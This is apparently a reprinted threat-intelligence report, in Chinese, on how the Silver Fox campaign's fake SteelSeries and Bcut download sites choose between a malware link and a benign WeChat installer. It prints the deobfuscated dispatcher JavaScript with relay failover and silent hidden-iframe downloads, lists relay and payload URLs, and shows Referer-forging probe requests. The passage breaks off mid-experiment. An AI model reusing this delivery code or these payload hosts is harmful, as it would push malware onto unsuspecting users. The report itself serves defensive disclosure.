



> 出处：[360 Netlab](https://blog.netlab.360.com/yin-hu-yun-duan-sheng-si-bo-cong-wu-tiao-jian-fan-hui-dao-hei-ming-dan-ji-zhi/)，作者 Youngs、HamaPea，原文发布于 2026-09-14。
>
> 原文标题：[银狐云端“生死簿”：从“无条件返回”到“黑名单”机制](https://blog.netlab.360.com/yin-hu-yun-duan-sheng-si-bo-cong-wu-tiao-jian-fan-hui-dao-hei-ming-dan-ji-zhi/)
>
> 版权归原作者及 360 威胁情报中心所有，本文仅用于学习与研究。

2026年9月，360威胁情报中心对银狐仿冒投递链进行持续性追踪，结合历史样本与本轮抓包，梳理出其投递与对抗演化的四个阶段：无条件返回、白名单限制、基于白名单的批量探测，以及当前的黑名单机制。

最早阶段，访问中转节点即可获得恶意样本下载地址，服务端不区分请求来源。随后，银狐引入**白名单机制**：仅当请求头 `Referer` 指向在投仿冒域名时，`api.php` 才下发真实载荷，其余请求拿不到有效载荷。利用这一特征，我们对最近注册的二级域名进行了**批量遍历探测**，识别出一批新投放的仿冒域名。

批量探测之后，我们在 9 月 12 日凌晨的双站抓包中，观察到同一台 `api.php` 出现两种结果；当日 04:35 UTC 的七组对照复测确认：**云端决策模型已切换为“黑名单”——只有被拉进失效名单的域名才返回微信官方安装包等无害素材，名单之外的一切（在投域名、全新域名、甚至不带 Referer 的请求）照常下发真实载荷**。推测批量探测可能被银狐侧感知，策略切换发生于其后。

策略切换后，白名单阶段“返回真实载荷即名单命中”的识别方法失效；但新机制留下了新的识别信号：返回微信包的域名，即为已被处置、识别或失效的银狐仿冒域名。

## 一、背景

银狐的仿冒下载站是个长期存在的威胁：伪造赛睿、必剪这类热门软件的官网，通过 SEO 将页面排在搜索结果前列，诱导用户主动点击"下载"。本次追踪的核心发现是，投递链背后的服务端决策机制已具备随探测行为调整的能力。

本次追踪覆盖四个阶段。前两个阶段是服务端投递策略，第三阶段是利用策略缺陷开展的探测行动，第四阶段是银狐针对探测行为采取的策略调整。

| 阶段 | 性质 | 服务端行为 | 可观测结果 |
| --- | --- | --- | --- |
| 第一阶段：无条件返回 | 服务端投递策略 | 访问中转节点即可返回恶意样本地址 | 任意请求均可直接取样 |
| 第二阶段：白名单限制 | 服务端投递策略 | 仅对白名单中的 `Referer` 域名返回真实载荷 | 返回真实载荷即可确认域名在投 |
| 第三阶段：批量探测 | 探测行动 | 利用白名单的可观测差异遍历候选域名 | 识别出一批新投放仿冒域名 |
| 第四阶段：云端黑名单 | 服务端对抗调整 | 黑名单域名返回无害素材，名单外统一返回真实载荷 | 返回无害素材可提示域名已失效或被处置 |

**第一阶段：无条件返回。** 早期调度层不校验请求来源。只要访问中转节点，`api.php` 就直接返回恶意样本下载地址；请求是否来自银狐仿冒站、是否携带 `Referer`，都不影响结果。这一阶段的主要问题是中转节点暴露后，任何人都可以直接获取载荷。

**第二阶段：白名单限制。** 银狐的调度层 `api.php` 开始消费一个变量——请求头 `Referer` 中的注册域名是否为银狐在投的仿冒域名。是，则下发真实银狐下载地址；否，则不下发有效载荷。

**第三阶段：基于白名单的批量探测。** “Referer 即钥匙”使白名单成为可观测信号：构造 Referer 探测 `api.php`，返回真实载荷即可视为命中银狐在投域名。我们以最近注册的二级域名作为候选池，逐个遍历探测，识别出一批仿冒域名并持续跟踪。这一阶段不是银狐新增的投递策略，而是对其白名单缺陷的利用。

**第四阶段：云端黑名单。** 9 月 11 日下午，白名单策略仍在生效；9 月 12 日凌晨的抓包中，同一台 `api.php` 出现“一个域名返回微信包、一个域名返回银狐载荷”的分裂结果；当日全量复测确认，**决策机制已从白名单切换为云端黑名单**。

切换之后，"Referer 即钥匙"的溯源方法失效——黑名单模型下几乎所有请求都返回真实载荷，无法再以"返回载荷"区分银狐域名。但新机制同时提供了新的识别信号：**凡被 api.php 判为命中黑名单、返回微信官方包的域名，即为已暴露、已被处置的银狐仿冒域名**。

本文按“**无条件返回 → 白名单限制 → 批量探测 → 黑名单切换**”的次序，完整复盘这一过程。目前整个**银狐木马仿冒域名攻击链路**如下图：



*图1 银狐木马仿冒域名完整攻击链路*

## 二、时间线

- 第一阶段（无条件返回）：访问中转节点即可获得恶意样本下载地址，不校验请求来源；
- 第二阶段（白名单时期）：`api.php` 仅对“Referer=银狐在投域名”下发真实载荷；
- 第三阶段（批量探测）：引入最近注册二级域名数据，构造 Referer 批量遍历探测，识别出银狐新投放仿冒域名；
- 第四阶段（黑名单时期）：名单内域名返回微信官方安装包或其他无害素材，名单外请求返回真实载荷；
- 2026-08-12 08:32:31 GMT：中转池 `relays.json` 最后修改（`v`/`updated_at` 时间戳 `1786523551` 与响应头 `last-modified` 交叉验证一致），此后一个月未变更；
- 2026-09-11 下午：白名单策略仍生效；
- 2026-09-12 01:46:27 UTC：捕获 `gg-steelseries.com.cn` 完整请求包（7 个请求）；
- 2026-09-12 01:47:07 UTC：捕获 `org-bcut.com.cn` 完整请求包（8 个请求），与前者间隔 40 秒；
- 2026-09-12 04:35 UTC：七组对照实验全量复测（17 次 curl 请求，全部 200），确认当前为**云端黑名单**模型；

## 三、两个仿冒域名对比

本次研究的两个仿冒站均为 .com.cn 后缀，与真实官方域名高度相似：

| 仿冒域名 | 伪装对象 | 页面标题 | 调度层决策 |
| --- | --- | --- | --- |
| `gg-steelseries.com.cn` | 赛睿 SteelSeries GG 电竞软件 | "赛睿GG官方下载 - 赛睿GG \| 官网正版安全下载" | 已失效 → **命中黑名单** |
| `org-bcut.com.cn` | B站必剪 PC 客户端 | "必剪电脑端 – 必剪全平台 \| 超燃音乐库与专业画面特效…" | **正常收量（名单外）** |

两个站点均为静态单页，但"官网感"做得很足：SEO 元信息齐全（title / description / keywords / robots）、JSON-LD 结构化数据（`SoftwareApplication`、`FAQPage`）、FAQ 、响应式导航一应俱全；同时统一接入 51.LA 统计（ID：`3QIMielUrIaXc63E`、`3QbvgmKU4mQXDLRW`），用于受害者流量计数与站点存活监控。

```html
<!-- gg-steelseries.com.cn 页面源码节选 -->
<script>LA.init({id:"3QIMielUrIaXc63E",ck:"3QIMielUrIaXc63E"})</script>
<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "SoftwareApplication",
  "name": "赛睿GG官方版",
  "applicationCategory": "UtilitiesApplication",
  "operatingSystem": "Windows, macOS",
  "downloadUrl": "https://gg-steelseries.com.cn/",
  "url": "https://gg-steelseries.com.cn/"
}
</script>
```

有一点需要提前说明：**访问者的每一次到访，攻击者都是看得见的**。两组数据中都能看到 `collect-v6.51.la/v6/collect` 的上报请求——每一次访问都会进入攻击者的存活监控面板。这一点与后文的决策机制放在一起看，构成了一个完整的闭环：访问会被感知，暴露会被处置。

## 四、流量侧复盘：两条链路，新旧同框

### 0x01: 场景 A：gg-steelseries.com.cn —— 旧版逻辑"尸体"还在，新版逻辑接管

时间线（UTC，`gg-steelseries.com.cn.har`，共 7 个请求，耗时均为实测值）：

```text
T+0.000s  01:46:27.316  GET https://gg-steelseries.com.cn/
          → 200 OK（858ms，HTML 24952 字节，gzip）
          Referer:        （无）
          Server: nginx / Last-Modified: Wed, 12 Aug 2026 10:29:58 GMT
          HSTS: max-age=31536000

T+0.840s  01:46:28.156  GET https://sdk.51.la/js-sdk-pro.min.js
          → 200 OK（147ms，51.LA 统计 SDK v1.58.5）
          Referer:        https://gg-steelseries.com.cn/
          Sec-Fetch-Dest: script / Sec-Fetch-Mode: no-cors / Sec-Fetch-Site: cross-site
          UA: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
              Chrome/152.0.0.0 Safari/537.36 Edg/152.0.0.0

T+0.998s  01:46:28.314  POST https://collect-v6.51.la/v6/collect?dt=4
          → 200 OK（140ms，请求体 625 字节，加密上报数据）
          Referer:        https://gg-steelseries.com.cn/
          Origin:         https://gg-steelseries.com.cn
          Sec-Fetch-Dest: empty / Sec-Fetch-Mode: cors

T+1.006s  01:46:28.322  GET https://api.new-noah.top/api.php
          → 状态码 0（228ms 后放弃，请求未达服务器）
          Referer:        https://gg-steelseries.com.cn/
          UA:             （同上，Edge 152）

T+1.007s  01:46:28.323  GET https://noah-ssh.com.cn/relays.json?_=1789177588323
          → 200 OK（605ms）
          Referer:        https://gg-steelseries.com.cn/
          Origin:         https://gg-steelseries.com.cn
          Cache-Control:  no-cache / Pragma: no-cache（脚本显式声明）
          Sec-Fetch-Dest: empty / Sec-Fetch-Mode: cors / Sec-Fetch-Site: cross-site
          UA:             （同上，Edge 152）

T+1.247s  01:46:28.563  GET https://gg-steelseries.com.cn/favicon.ico
          → 404 Not Found（180ms，响应体 4118 字节，内含 r6 调度脚本，见"花絮"一节）
          Referer:        https://gg-steelseries.com.cn/
          Server: nginx / ETag: W/"6a7c4b26-1016"

T+1.487s  01:46:28.803  GET https://noah-ssh.com.cn/api.php?t=1789177588803
          → 200 OK（172ms）
          Referer:        https://gg-steelseries.com.cn/
          Origin:         https://gg-steelseries.com.cn
          Cache-Control:  no-cache / Pragma: no-cache
          Sec-Fetch-Dest: empty / Sec-Fetch-Mode: cors / Sec-Fetch-Site: cross-site
          UA:             （同上，Edge 152）
          返回数据：
{"download_link":"https://dldir1v6.qq.com/weixin/Universal/Windows/WeChatWin_4.1.13.exe"}
```

说明："状态码 0"表示该请求未完成（DNS 解析失败或连接被拒），并非 HTTP 响应状态——旧版 API `api.new-noah.top` 已无法解析，请求未达服务器。

先注意一个贯穿整条时间线的细节：**从 sdk.51.la 开始，页面发出的所有跨域请求都自动携带了 Referer: https://gg-steelseries.com.cn/**——这是浏览器跨域 fetch 的默认行为。也就是说，调度层从 `relays.json` 阶段就能拿到"受害者来自哪个仿冒站"，后文的决策机制正是建立在这个头之上。

页面加载后约 1.5 秒内，两套脚本先后开火：

1. 旧版脚本（T+1.006s）向 `api.new-noah.top/api.php` 发起请求——域名已失效，请求未达；
2. 新版脚本（T+1.007s，仅晚 1 毫秒）走 `relays.json → api.php` 链路，成功拿到"下载链接"。

也就是说，这个页面是新旧两代投递逻辑的活体同框：旧代码没有被清理，只是被新的调度框架接管了下载职责。

### 0x02: 场景 B：org-bcut.com.cn —— 新版逻辑

时间线（UTC，`org-bcut.com.cn.har`，共 8 个请求，比场景 A 晚 40 秒）：

```text
T+0.000s  01:47:07.242  GET http://org-bcut.com.cn/
          → 307 Temporary Redirect（32ms）
          Location: https://org-bcut.com.cn/
          Non-Authoritative-Reason: HttpsUpgrades（浏览器自动 HTTPS 升级）
          Referer:        （无）

T+0.032s  01:47:07.274  GET https://org-bcut.com.cn/
          → 200 OK（872ms，HTML 33850 字节，gzip）
          Referer:        （无）
          Server: nginx / Last-Modified: Wed, 02 Sep 2026 15:14:59 GMT

T+0.957s  01:47:08.199  GET https://sdk.51.la/js-sdk-pro.min.js
          → 200 OK（309ms，同一份 51.LA SDK）
          Referer:        https://org-bcut.com.cn/
          UA:             （同上，Edge 152）

T+0.958s  01:47:08.200  GET https://org-bcut.com.cn/logo.png
          → 200 OK（514ms）
          Referer:        https://org-bcut.com.cn/

T+1.284s  01:47:08.526  POST https://collect-v6.51.la/v6/collect?dt=4
          → 200 OK（245ms，请求体 367 字节，加密上报）
          Referer:        https://org-bcut.com.cn/
          Origin:         https://org-bcut.com.cn

T+1.332s  01:47:08.574  GET https://noah-ssh.com.cn/relays.json?_=1789177628573
          → 200 OK（451ms）
          Referer:        https://org-bcut.com.cn/
          Origin:         https://org-bcut.com.cn
          Cache-Control:  no-cache / Pragma: no-cache
          Sec-Fetch-Mode: cors / Sec-Fetch-Site: cross-site
          UA:             （同上，Edge 152）
          响应体：与场景 A 完全一致（见后文投递框架一节）

T+1.698s  01:47:08.940  GET https://org-bcut.com.cn/logo.png
          → 200 OK（109ms，二次加载命中本地缓存协商）

T+1.801s  01:47:09.043  GET https://noah-ssh.com.cn/api.php?t=1789177629043
          → 200 OK（175ms）
          Referer:        https://org-bcut.com.cn/
          Origin:         https://org-bcut.com.cn
          Cache-Control:  no-cache / Pragma: no-cache
          Sec-Fetch-Mode: cors / Sec-Fetch-Site: cross-site
          UA:             （同上，Edge 152）
          返回数据：
          {"download_link":"https://www.0akw8w.com/down910"}
```

三个细节值得注意：

- 页面中没有任何 `api.new-noah.top` 请求——旧版检测代码在新版模板中已被彻底移除；
- 与场景 A 相同，页面发出的所有跨域请求均携带 `Referer: https://org-bcut.com.cn/`，`Origin` 头同样如实暴露站点身份；
- 页面加载阶段即完成"预解析"（`relays.json` 与 `api.php` 分别仅耗时 451ms / 175ms），`api.php` 返回的真实载荷链接已就位，用户点击下载按钮时瞬间触发，无需等待。

### 0x03: 关键对比：同一个中转站，40 秒，两个结果

|  | 场景 A | 场景 B |
| --- | --- | --- |
| 请求时间 | 01:46:28.803 | 01:47:09.043 |
| 间隔 | 仅 40 秒 |  |
| 中转站 | `noah-ssh.com.cn/api.php`（同一个） | 同左 |
| Referer | `https://gg-steelseries.com.cn/` | `https://org-bcut.com.cn/` |
| 请求 UA | Edge 152 | Edge 152（与场景 A 相同） |
| 返回的 download_link | 微信官方安装包 `dldir1v6.qq.com/weixin/Universal/Windows/WeChatWin_4.1.13.exe` | 真实载荷 `www.0akw8w.com/down910` |
| 调度层决策（见后文） | 已失效 → 命中黑名单 | 正常在投（名单外） |
|  |  |  |
|  |  |  |

两个请求除了 Referer 之外的所有可见要素（UA、请求时间间隔、目标接口）几乎一致，唯一的实质差异就是 Referer 中的域名——后文的对照实验将证明这不是巧合，而是调度层按域名状态做的一次标准决策。

## 五、新版投递框架：三层"动态容灾"架构

从两个页面内嵌的脚本（同一套模板的两个版本）可以完整还原出分层设计：

```text
┌───────────────────────────┐
│  第一层：仿冒下载站         │ gg-steelseries.com.cn / org-bcut.com.cn / ...（同一模板批量克隆）
│  （纯静态，无载荷）         │ 按钮绑定 data-download 或按文案正则匹配
└────────────┬──────────────┘
             │ ① 加载即请求 relays.json?_={13位毫秒时间戳}
             │    （跨域 fetch，自动携带 Referer: 当前仿冒站）
┌────────────▼──────────────┐
│  第二层：中转调度池         │ noah-ssh.com.cn（Cloudflare 托管）
│  relays.json 列表          │ noah-relay.wotudj578.workers.dev
│                           │ noah-relay2.wotudj578.workers.dev
│  ★ 决策点                  │ api.php 按请求 Referer 中的仿冒域名
│                           │   查名单，决定下发内容（无条件返回→白名单→黑名单）
└────────────┬──────────────┘
             │ ② 依次请求 {relay}/api.php?t={13位毫秒时间戳}
             │    （同样自动携带 Referer）
             │    2.5s 超时失败即自动切换下一个
┌────────────▼──────────────┐
│  第三层：载荷投递站         │ www.0akw8w.com/down910（银狐样本）
│  + 兜底素材                │ dldir1v6.qq.com/weixin/Universal/Windows/
│                           │   WeChatWin_4.1.13.exe
│                           │ （微信官方包，命中黑名单域名回退素材）
└───────────────────────────┘
```

### 0x01: 第一步：Discovery——获取中转API池

`relays.json?_={毫秒级时间戳}` 的真实响应（上面两组场景中完全一致）：

```json
{
    "data": {
        "v": 1786523551,
        "updated_at": 1786523551,
        "relays": [
            "https://noah-ssh.com.cn",
            "https://noah-relay.wotudj578.workers.dev",
            "https://noah-relay2.wotudj578.workers.dev"
        ]
    },
    "sig": ""
}
```

一个可交叉验证的细节：`v`/`updated_at` 时间戳 `1786523551` 换算为 `2026-08-12 08:32:31 GMT`，与响应头 `last-modified` 吻合——该中转列表在捕获时已稳定运行约一个月。

该请求与响应值得关注的头部（实测）：

```http
GET /relays.json?_=1789177588323 HTTP/2
Host: noah-ssh.com.cn
Referer: https://gg-steelseries.com.cn/   ← 当前仿冒站域名
Origin: https://gg-steelseries.com.cn
Cache-Control: no-cache / Pragma: no-cache（脚本显式声明防缓存）
User-Agent: Edge 152（Chrome 152 内核）
── 响应 ──
HTTP/2 200
access-control-allow-origin: *
access-control-allow-methods: GET, OPTIONS
server: cloudflare
cache-control: no-store
last-modified: Wed, 12 Aug 2026 08:32:31 GMT
```

核心点：

- **Referer**：值为当前仿冒站完整 URL——决策机制的输入；**Origin** 与 Referer 同域，进一步固化"请求来自哪个站点"的证明；
- `Access-Control-Allow-Origin: *` 加 `Allow-Methods: GET, OPTIONS`，说明接口面向任意仿冒域名开放跨域调用——新仿冒站复制一段 JS 即可即插即用；
- `api.php` 的请求/响应头结构与此一致，仅 `:path` 变为 `/api.php?t={13位毫秒时间戳}`，`cache-control` 略严格。

### 0x02: 第二步：Relay——轮询调度，拿 download_link

页面内嵌脚本的核心调度逻辑（还原自源码，去混淆整理）：

```javascript
var DISCOVERY = [
  'https://noah-ssh.com.cn/relays.json',
  'https://noah-relay.wotudj578.workers.dev',
  'https://noah-relay2.wotudj578.workers.dev'
];
var POOL_KEY = 'noah_relay_pool';   // 中转池写入 localStorage 持久化
var LINK = '';

// 逐个请求 Relay，2.5 秒超时，失败自动切下一个
function fetchLink(relays, i, done) {
  if (!relays || i >= relays.length) { if (done) done(); return; }
  var ctrl = new AbortController();
  var timer = setTimeout(function () { ctrl.abort(); }, 2500);
  fetch(relays[i].replace(/\/+$/, '') + '/api.php?t=' + Date.now(),
        { signal: ctrl.signal, cache: 'no-store' })
    .then(function (r) { return r.ok ? r.json() : Promise.reject(); })
    .then(function (data) {
      clearTimeout(timer);
      if (data && data.download_link) { LINK = data.download_link; bind(); if (done) done(); }
      else fetchLink(relays, i + 1, done);          // 响应异常 → 换下一个
    })
    .catch(function () { clearTimeout(timer); fetchLink(relays, i + 1, done); });
}

// Discovery 也逐个尝试，3 秒超时，拿到中转池后缓存到 localStorage
function discover(i, onDone) {
  if (i >= DISCOVERY.length) { onDone(null); return; }
  var ctrl = new AbortController();
  var timer = setTimeout(function () { ctrl.abort(); }, 3000);
  fetch(DISCOVERY[i] + (DISCOVERY[i].indexOf('?') >= 0 ? '&' : '?') + '_=' + Date.now(),
        { signal: ctrl.signal, cache: 'no-store' })
    .then(function (r) { return r.ok ? r.json() : Promise.reject(); })
    .then(function (pkg) {
      clearTimeout(timer);
      var data = pkg && pkg.data ? pkg.data : pkg;
      if (data && data.relays && data.relays.length) {
        try { localStorage.setItem(POOL_KEY, JSON.stringify(data)); } catch (e) {}
        onDone(data);
      } else { discover(i + 1, onDone); }
    })
    .catch(function () { clearTimeout(timer); discover(i + 1, onDone); });
}

// 主入口：优先用新拉取的中转池，失败则回退本地缓存
function resolve(done) {
  if (resolving) { if (done) setTimeout(done, 800); return; }
  resolving = true;
  discover(0, function (fresh) {
    var pool = fresh || getCachedPool();
    if (pool) fetchLink(pool.relays, 0, function () { resolving = false; if (done) done(); });
    else { resolving = false; if (done) done(); }
  });
}
```

这段代码里有一个值得单独指出的设计：客户端对 `api.php` 返回的任何 `download_link` 都**无条件采纳**，不判断内容是真实载荷还是微信官方包。客户端只负责执行调度指令，投不投毒的决策权完全在调度端手里——这正是不同阶段的服务端策略都能够在运营上生效的前提：**服务端改变返回逻辑或名单，客户端零改动**。

### 0x03: 第三步：下载触发——两种"无痕"姿势

拿到 `download_link` 后，脚本把下载按钮的原始跳转劫持为 `javascript:void(0)`，再用隐藏元素触发下载。两个站使用了两种不同的触发实现：

**gg-steelseries（隐藏 `<a>` 标签）：**

```javascript
function startDownload(url) {
  if (!url) return;
  try {
    var a = document.createElement('a');
    a.href = url;
    a.rel = 'noopener noreferrer';
    a.referrerPolicy = 'no-referrer';   // 关键：下载请求不带 Referer
    a.style.display = 'none';
    document.body.appendChild(a);
    a.click();
    setTimeout(function () { try { a.parentNode.removeChild(a); } catch (e) {} }, 1500);
  } catch (e) {
    try { window.location.href = url; } catch (e2) {}
  }
}
```

**org-bcut（隐藏 iframe）：**

```javascript
function startDownload(url) {
  if (!url) return;
  try {
    var ifr = document.createElement('iframe');
    ifr.style.display = 'none';
    ifr.src = url;                       // 静默触发下载
    (document.body || document.documentElement).appendChild(ifr);
    setTimeout(function () {             // 120 秒后销毁
      try { ifr.parentNode.removeChild(ifr); } catch (e) {}
    }, 120000);
  } catch (e) { window.open(url, '_blank'); }
}
```

### 0x04: 工程化细节

1. **防缓存**：`relays.json?_=` 与 `api.php?t=` 均拼接 13 位毫秒时间戳，并声明 `cache: 'no-store'`，确保每次拿到最新调度指令（两组的参数 `_=1789177588323`、`t=1789177629043` 均为此模式）；
2. **本地持久化**：中转池写入 `localStorage['noah_relay_pool']`，即使调度主域被封锁，已访问过的受害者仍能从缓存恢复链路；
3. **多级超时 + 自动切换**：Discovery3秒、Relay 2.5秒，配合 `AbortController` 主动掐断，逐个 failover，避免受害者页面卡死；
4. **按钮伪装**：`data-download` 属性绑定优先，文案正则兜底（`/下载|立即下载|免费下载|电脑版|^download$/i`），点击时以 `javascript:void(0)` 阻断跳转；
5. **双触发姿势**：赛睿页用隐藏 `<a>`（`no-referrer`），必剪页改用隐藏 iframe（120 秒后销毁）——后者更难被前端 hook 类检测手段捕获；
6. **版本标记**：赛睿页脚本中留有 `NOAH_DL_REV = 'r6'` 版本号（必剪页同版但已抹去该标记），便于灰度管理不同投放模板版本。

## 六、策略演化：从“无条件返回”到云端“黑名单”



*图2 银狐策略演化*

### 0x01: 第一阶段：无条件返回——中转节点即载荷入口

最早观测到的投递方式最为直接：`api.php` 不判断请求来源，只要访问中转节点，就返回恶意样本下载地址。客户端甚至不需要来自仿冒站页面，也不需要携带有效 `Referer`。

这一模式的优点是部署简单、投递成功率高；缺点同样明显：中转节点一旦被发现，安全研究者、沙箱或安全设备都可以直接请求接口获取样本，攻击者无法区分真实受害者与主动分析者，也无法控制已暴露节点的使用范围。

### 0x02: 第二阶段：白名单时代——Referer 即钥匙

在我们这次追踪之前，银狐调度层的决策机制是**白名单**：

> 仅当请求头 `Referer` 指向银狐在投的仿冒域名时，`api.php` 才下发真实载荷（中转 API 地址 + 真实银狐下载地址）；其余请求一律拿不到。

两个特征让这个模型很容易被识别，也很容易被利用：

1. **Referer 是唯一的钥匙**——服务端不看 UA、不看协议、不看路径，只看 Referer 中的注册域名是否在名单里；

白名单机制有个致命的运营弱点：**名单是一本"封闭账本"**。只要探测者构造一个银狐域名做 Referer，返回真实载荷就等于"名单命中确认"——这把银狐的投放状态表直接变成了攻击者的数据源。

### 0x03: 第三阶段：大批量域名探测——把银狐的名单变成数据源

基于"Referer 即钥匙"这个特征，构建了一套批量溯源流程：

1. 360威胁情报中心whois数据中**取最近注册的二级域名数据**作为候选池（仿冒域名多集中于近期注册，可视为银狐批量起域名的一个运营特征）；
2. 对候选域名逐个构造 Referer，请求 `api.php` 探测；
3. 返回真实载荷 → 该域名命中白名单，即银狐在投仿冒域名。

这套流程批量遍历了候选域名池。这轮追猎的产出包括：识别出一批银狐新投放的仿冒域名，并持续跟踪其状态变化。推测如此大规模的探测活动可能已被银狐侧的监控面板感知，策略切换随后发生（即黑名单机制）。

### 0x04: 第四阶段：七组对照实验——黑名单机制的验证

9 月 11 日下午我们最后一次确认白名单策略仍在生效。9 月 12 日凌晨的双站抓包出现了分裂结果，当日 04:35 UTC 我们用七组对照实验全量复测确认：**决策机制已经切换为云端黑名单**。

用 `curl` 对 `https://noah-ssh.com.cn/api.php?t={13位毫秒时间戳}` 发起系列对照请求，每组请求除特别说明外均携带 `Referer` 头（值为对应仿冒站完整 URL），逐项隔离变量。以下为复测的真实返回（17 次请求，全部 200）：

```text
【组 1】保持原始指纹（UA=Edge152，Referer: https://gg-steelseries.com.cn/）
  → 200  {"download_link":"https://dldir1v6.qq.com/weixin/Universal/Windows/WeChatWin_4.1.13.exe"}  （微信包）
  对照：同环境 Referer 换为 org-bcut.com.cn → 200  {"download_link":"https://www.0akw8w.com/down910"} 真实载荷

【组 2】仅更换 UA（Chrome120 / Chrome126），Referer 仍为 https://gg-steelseries.com.cn/
  → 200  {"download_link":"https://dldir1v6.qq.com/weixin/Universal/Windows/WeChatWin_4.1.13.exe"}  （微信包，结果不变）

【组 3】更换 UA + 全新 Referer: https://fresh-probe-x71.com.cn/（从未投放过）
  → 200  {"download_link":"https://www.0akw8w.com/down910"}  （真实载荷）
  对照：另一随机域 qzk8v2m4t.com → 真实载荷（结果一致）

